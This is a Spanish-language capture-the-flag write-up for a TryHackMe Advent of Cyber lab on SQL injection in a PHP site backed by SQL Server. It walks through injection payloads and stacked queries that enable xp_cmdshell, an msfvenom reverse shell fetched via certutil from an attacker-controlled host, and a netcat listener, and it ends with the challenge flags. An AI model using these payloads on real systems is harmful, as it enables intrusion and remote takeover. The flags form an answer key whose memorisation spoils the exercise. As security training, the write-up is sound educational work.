# Advent of Cyber Día 10: SQL injection

## Introducción

La historia del día comienza con una serie de reportes que los protagonistas reciben acerca de la página de la empresa, mencionan la presencia de información maliciosa y notan que el equipo de desarrollo web ya no posee acceso al servidor.  
Uno de los protagonistas se pone a investigar y da con un post de hace unos meses en un foro de hackers, en el mismo el OP estaría vendiendo vulnerabilidades del sitio prometiendo información valiosa.  
Con esta información los protagonistas comienzan a intentar vulnerar desde afuera al sistema y descubren que el atacante ha logrado su cometido mediante una **SQL injection**.

Ya dejando de lado la historia y entrando en el apartado técnico, en el día de hoy se trabajará con SQL y PHP, tanto de manera teórica como práctica.

## Objetivos de aprendizaje

- Aprender a identificar vulnerabilidades de tipo SQL injection.
- Aprender a abusar las *stacked queries* para transformar una SQL injection en una *remote code execution*.
- Aprender a restaurar una página web luego de un ataque.

## SQL

En este apartado THM da una explicación general de los conceptos básicos de SQL, dado que ya tengo experiencia con esta tecnología opto por no agregarlo.

## PHP

Acá dan un pantallazo sobre PHP, lo relevante es la relación que tiene con las bases de datos. La forma más común de conectarse con bdd SQL es mediante **PHP Data Object** (PDO) o utilizando un driver particular de cada bdd como mysqli para MySQL o sqlsrv para SQL Server.  
Luego de tener la conexión establecida se pueden ejecutar consultas de la siguiente manera:

```php
// Execute an SQL query
$query = "SELECT * FROM tbl_ornaments WHERE color = 'Green'";
$result = sqlsrv_query($conn, $query);
```

Donde:

- `$query`: corresponde a la consulta completa
- `$conn`: corresponde al  *database connection object*
- `$result`: corresponde al valor resultante de la consulta, en otras palabras, las filas de la bdd.

### Consultas dinámicas

Si bien lo explicado previamente es utilizable, en la realidad las consultas no suelen estar hardcodeadas sino que son dinámicas, por ejemplo, pueden depender del usuario.  
Una forma muy común de obtener input del usuario en aplicaciones web es mediante los parámetros `GET`. Estos parámetros se encuentran al final de la URL y pueden ser interpretados por, en este caso, PHP. Por ejemplo:

```php
// Retrieve the GET parameter and save it as a variable
$color = $_GET['color'];

// Execute an SQL query with the user-supplied variable
$query = "SELECT * FROM tbl_ornaments WHERE color = '$color'";
$result = sqlsrv_query($conn, $query);
```

Y la URL sería algo así: `http://example.thm/ornament_search.php?color=Green`.

## Inyección SQL

Si los parámetros dinámicos explicados previamente no tienen las medidas de seguridad apropiadas, dan lugar a lo que se conoce como **SQL injection** o inyección SQL en español.  
Este ataque se caracteriza por abusar de cómo manejan el input las aplicaciones web, particularmente las consultas SQL. En lugar de darle al parámetro un valor legítimo, el atacante introduce código SQL que afecte a la bdd de fondo.

Estos ataques son sumamente peligrosos ya que pueden culminar en la filtración, manipulación o el robo de información sensible. Puede llegar al punto de volver completamente inutilizable a una aplicación web.

A continuación se verá un ejemplo de un código que no realiza las validaciones adecuadas y es vulnerable a una inyección SQL:

```php
// Retrieve the GET parameter and save it as a variable
$color = $_GET['color'];

// Execute an SQL query with the user-supplied variable
$query = "SELECT * FROM tbl_ornaments WHERE color = '$color'";
$result = sqlsrv_query($conn, $query);
```

El atacante podría enviar en vez de un color válido, la expresión `' OR 1=1 --`, lo que transformaría la consulta en:

```sql
SELECT * FROM tbl_ornaments WHERE color = '' OR 1=1 --'
```

De acá viene el nombre, ya que el atacante **inyectó** código malicioso en una consulta SQL. Veamos que sucede:

- `' OR`: la primera comilla simple logra que la primera expresión que va a evaluar el OR sea `algo = ''`, luego al agregar en OR permite que el WHERE evalúe una expresión más, la cual se explicará a continuación.
- `1=1`: es la segunda expresión que evalúa el OR, la misma siempre será verdadera lo que hará que el WHERE siempre termine en verdadero.
- `--`: comentario SQL crucial que hace que todo lo que sigue sea ignorado, evitando así otras posibles filtraciones además del WHERE previo. En resumen, anula el resto de la consulta.

Esta consulta traerá TODA la base de datos como resultado ya que, como se mencionó antes, el WHERE que filtraba los valores quedó inutilizado.

### Precauciones a tener en cuenta con `OR 1=1`

Acá mencionan que si bien es una consulta muy utilizada de manera didáctica o como ejemplo, ejecutarla en la realidad puede ser algo catastrófico ya que no se sabe el contexto de la consulta a la que se le esta inyectando.  
Ponen como ejemplo una situación en la que la consulta sea un `UPDATE` o un `DELETE`, inutilizar el `WHERE` haría que todos los campos se vean afectados, potencialmente arruinando toda la información que se quería obtener en un principio.

Para evitar posibles desastres, THM nos recomienda optar por la inyección de consultas más concretas y en relación al contexto del atributo que se esté evaluando, por ejemplo: la expresión `bob' AND 1=1--` modificaría el campo de Bob, mientras que `bob' AND 1=2--` no.

## Stacked queries

Hay muchas formas de aplicar una inyección SQL, una de las que más control le da al atacante es la que se conoce como **stacked queries** o consultas apiladas en español. Stacked queries le permite al atacante finalizar la consulta SQL original y ejecutar distintas expresiones SQL en una única inyección.

En SQL las expresiones finalizan con el operador `;`, la finalización indica también el inicio de otra posible expresión. Esta funcionalidad facilita la ejecución de múltiples sentencias SQL en una sola línea.  
Supongamos que el atacante del ejemplo previo no solamente quería obtener todas las filas sino también insertar información maliciosa. Podría lograrlo modificando la inyección para que se vea de la siguiente manera:

```sql
' ; INSERT INTO tbl_ornaments (elf_id, color, category, material, price) VALUES (109, 'Evil Red', 'Broken Candy Cane', 'Coal', 99.99); --
```

Esto transformaría la consulta original a lo siguiente:

```sql
SELECT * FROM tbl_ornaments WHERE color = '' ; INSERT INTO tbl_ornaments (elf_id, color, category, material, price) VALUES (109, 'Evil Red', 'Broken Candy Cane', 'Coal', 99.99); --'
```

## Probando la vulnerabilidad a inyecciones SQL

Verificar si una aplicación web es vulnerable a este tipo de ataques es crucial para su seguridad. Estas pruebas consisten en identificar posibles vulnerabilidades en donde el atacante podría manipular información brindada por el usuario para ejecutar consultas SQL.

En el apartado de [Resolución](#resolución) se verá un ejemplo concreto.

## Llamando stored procedures

Mediante las stacked queries es posible llamar a los procedimientos almacenados o a las funciones que el gestor de bdd proporciona.

Microsoft SQL Server tiene un procedimiento almacenado llamado `xp_cmdshell` que permite la ejecución de comandos del sistema operativo. Si estuviéramos en un entorno con SQL Server y lográramos la inyección podríamos potencialmente ejecutar comandos de sistema y obtener lo que se conoce como **remote code execution**.

### `xp_cmdshell`

Como se explicó previamente, es un comando que permite la ejecución de comandos del sistema operativo y programas desde dentro de SQL Server.  
Debido a que es muy peligroso, en entornos de producción esta funcionalidad esta desactivada por defecto, sin embargo en casos en los que se haya configurado de manera errónea y en aplicaciones legacy es común verla activada. Si bien es posible activar esta funcionalidad desde SQL Server mediante `EXECUTE`, es una tarea que requiere que el usuario de la bdd sea sysadmin o tenga permisos `ALTER SETTINGS`.

A continuación se verá un ejemplo de la activación de la funcionalidad mediante inyección SQL con stacked queries:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

La consulta completa sería la siguiente:

```sql
http://MACHINE_IP/giftresults.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```

Y esto nos permitiría hacer uso de `xp_cmdshell` y ejecutar comandos mediante `EXECUTE` o `EXEC`.

## Remote code execution

Para verificar si lo realizado previamente funcionó vamos a intentar ejecutar `certutil.exe`. Este comando se encuentra nativamente en Windows y permite hacer conexiones HTTP/s.  
En este caso podemos usarlo para hacer una consulta HTTP para descargar un archivo de un servidor web que tengamos controlado para confirmar su ejecución. Para lograr esto se va a hacer uso de **MSFvenom**, una herramienta generadora de payloads que forma parte del Metasploit Framework, y nos permite generar un ejecutable Windows que al correrlo creará una *reverse shell*.  
Una reverse shell se puede interpretar una conexión realizada entre la máquina del atacante y su victima, la cual le permite al atacante la interacción directa con la máquina de su víctima.

Usamos MSFvenom de la siguiente manera:

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe
```

El resultado es un ejecutable que generará una reverse TCP connection mediante el puerto 4444.

Ya con el payload procedemos a levantar un servidor HTTP sencillo con Python:

```shell
python3 -m http.server 8000
```

Esto pondrá a disposición todos los archivos del directorio actual, incluido el recién creado `reverse.exe`.

Ahora hacemos uso de la stacked query para llamar a `xp_cmdshell` y ejecutar `certutil.exe` en la víctima para descargar el payload con `reverse.exe`:

```sql
http://MACHINE_IP/giftresults.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://YOUR.IP.ADDRESS.HERE:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --
```

Luego de ejecutar la sentencia SQL podemos verificar si funcionó analizando la consola en la que tenemos el servidor de Python, veríamos algo así:

```shell
└─$ python3 -m http.server 8000 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
MACHINE_IP - - [10/Dec/2023 14:20:59] "GET /reverse.exe HTTP/1.1" 200 -
```

Ahora bastaría con levantar un listener para que agarre a la shell en el puerto 4444 y luego hacer que la víctima ejecute `reverse.exe`. Para el listener vamos a hacer uso de la utilidad **netcat**, la cual nos permite leer desde y escribir hacia distintas conexiones.

```shell
nc -lnvp 4444
```

Para lograr que la víctima ejecute `reverse.exe`:

```sql
http://MACHINE_IP/giftresults.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --
```

Volvemos a la terminal de netcat y verificamos, deberíamos ver algo así:

```shell
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.10.10] from (UNKNOWN) [MACHINE_IP] 49730
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt service\mssql$sqlexpress
```

## Resolución

### Probando si la web es vulnerable

La página se ve de la siguiente manera:



Lo principal es buscar elementos con los cuales el usuario pueda interactuar para enviar información. Encontramos el siguiente formulario:



Luego de completarlo y continuar vemos que la URL cambio a `http://10.10.82.23/giftresults.php?age=adult&interests=gadgets&budget=100`, analizando la dirección podemos deducir que los parámetros son `age`, `interests` y `budget`.

Probemos modificar la URL de la siguiente manera:

```sql
http://10.10.82.23/giftresults.php?age='&interests=toys&budget=30
```

Y obtenemos lo siguiente:



Lo que nos da una gran cantidad de información del trasfondo de la bdd, entre otras cosas obtenemos la data de que el input no está sanitizado y que el gestor es Microsoft SQL Server.  
Con esta información podríamos asumir que el código PHP de fondo se vería mas o menos así:

```php
$age = $_GET['age'];
$interests = $_GET['interests'];
$budget = $_GET['budget'];

$sql = "SELECT name FROM gifts WHERE age = '$age' AND interests = '$interests' AND budget <= '$budget'";

$result = sqlsrv_query($conn, $sql);
```

Probemos inyectando `' OR 1=1 --`:

```sql
http://10.10.82.23/giftresults.php?age=' OR 1=1 --
```

Obtenemos el listado de regalos:



### Ejecutando código remotamente

Sabemos que se trata de SQL Server, por lo que podemos intentar la activación de `xp_cmdshell` de la forma que se explicó previamente. Inyectamos la expresión adecuada y la URL nos quedaría así:

```sql
http://10.10.82.23/giftresults.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```

Como sabemos, esta ejecución no devuelve nada:



Para verificarlo aplicamos lo aprendido sobre MSFvenom. Comenzamos generando el payload:



Levantamos el servidor con Python e inyectamos con stacked query la llamada a `xp_cmdshell` para ejecutar `certutil.exe` y obtener `reverse.exe`.

Verificamos el output en la terminal:



Ahora tenemos que levantar el listener en el puerto 4444:

```shell
nc -lnvp 4444
```

E inyectar la ejecución del reverse shell:

```sql
http://10.10.82.23/giftresults.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --
```

Revisamos el output en la terminal:



Nos desplazamos por el sistema para obtener información:



### Recuperando la página

Moviéndonos por el sistema encontramos lo siguiente:



Ejecutamos `restore_website.bat`:



Y volvemos a la página inicial para ver los cambios:



### Respuesta

<details>
<summary>Spoiler</summary>
<table>
  <thead>
    <tr>
      <th style="text-align:center">Información</th>
      <th style="text-align:center">Valor</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:center">Sección de la página con el formulario vulnerable</td>
      <td style="text-align:center"><code>/giftsearch.php</code></td>
    </tr>
    <tr>
      <td style="text-align:center">ODBC Driver presente en el error SQL</td>
      <td style="text-align:center"><code>ODBC Driver 17 for SQL Server</code></td>
    </tr>
    <tr>
      <td style="text-align:center">Último resultado retornado al inyectar `1=1`</td>
      <td style="text-align:center"><code>THM{a4ffc901c27fb89efe3c31642ece4447}</code></td>
    </tr>
    <tr>
      <td style="text-align:center">Flag presente en el **note file** `Gr33dstr`</td>
      <td style="text-align:center"><code>THM{b06674fedd8dfc28ca75176d3d51409e}</code></td>
    </tr>
    <tr>
      <td style="text-align:center">Flag presente en la web al restaurarla</td>
      <td style="text-align:center"><code>THM{4cbc043631e322450bc55b42c}</code></td>
    </tr>
  </tbody>
</table>
</details>

### [Volver a inicio](../../README.md)
